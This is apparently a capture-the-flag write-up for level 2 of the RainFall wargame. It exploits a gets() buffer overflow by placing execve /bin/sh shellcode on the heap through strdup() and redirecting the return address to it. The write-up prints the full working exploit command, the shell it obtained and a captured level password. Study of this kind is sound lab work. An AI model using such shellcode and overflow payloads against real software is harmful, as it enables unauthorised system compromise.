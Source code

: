 # Level2

## Objective

The goal of Level 2 is to escalate from `level2` to `level3` by exploiting a buffer overflow vulnerability in the `level2` binary. By the end, you should be able to retrieve the password for `level3`.

---

## Step 1: Examine the Binary

After switching to `level2`:

```bash
level2@RainFall:~$ ls
level2
```

Running the binary with some test input:

```bash
level2@RainFall:~$ ./level2
bjr
level2@RainFall:~$ ./level2
blablibloublu
level2@RainFall:~$
```

> **Observation**: The program take an input and quit, suggesting a **buffer overflow** ??.

---

## Step 2: Investigate the Code Behavior

By disassembling the main we find a function called `p()`, using again the disass cmd we find that the function uses `gets()` to read user input, which means there's a overflow vulnerability.

```bash
Dump of assembler code for function main:
    0x08048545 <+6>:     call   0x80484d4 <p>
Dump of assembler code for function p:
    0x080484ed <+25>:    call   0x80483c0 <gets@plt>
```

But here's the problem, the stack isn't usable this time to overflow.
<+39> - <+44> : Execute a logical AND on eax then compare it to "0xb0000000". 
This check is made to be sure we don't overwrite the return address to an address on the stack.

```bash
Dump of assembler code for function p:
   0x080484fb <+39>:    and    eax,0xb0000000
   0x08048500 <+44>:    cmp    eax,0xb0000000
```

The point is to use a different way to override... Maybe the HEAP ?
The Heap overflow exists and needs a malloc to be executed. We're lucky we found with ltrace a `strdup()` using a malloc.
Everything given to the `strdup()` is stored thanks to the malloc directly to the heap. The whole point here is to give `strdup()` a shellcode to execute with the syscall 
execve directly inside !

---

## Step 3: Find the Offset

We need to determine at which point our input overwrites the saved return address.

### 3.1 Using a Pattern

```bash
level2@RainFall:~$ gdb level2
(gdb) run
Starting program: /home/user/level2/level2 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```

When the program crashes, we check the value of `EIP`:

```bash
(gdb) info register eip
eip            0x37634136       0x37634136
(gdb)
```

Now we find the exact offset:

in ASCII translate to 0x36 0x41 0x63 0x37 meaning 6Ac7 here.

> The return address is overwritten after **80 bytes**.

---

## Step 4: So what's the expected input?

To exploit this binary, we provide three parts in our input:

1. **Shellcode** – a small sequence of instructions that executes `/bin/sh`.
2. **Padding** – filler bytes (`"A" * 59` here) to reach the saved return address on the stack.
3. **Return address** – overwritten with `0x0804a008`, which points to the buffer where our shellcode is stored.

When the function returns, execution jumps into our injected shellcode, giving us a shell.

```bash
level2@RainFall:~$ python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "Q" * 59 + "\x08\xa0\x04\x08"' > /tmp/exploit
level2@RainFall:~$ cat /tmp/exploit - | ./level2
j
 XRh//shh/bin1̀QQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQ
whoami
level3
cat /home/user/level3/.pass  
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

---

We successfully executed `get_shell()` and obtained a shell as `level3`.

---

**End of Level 2**






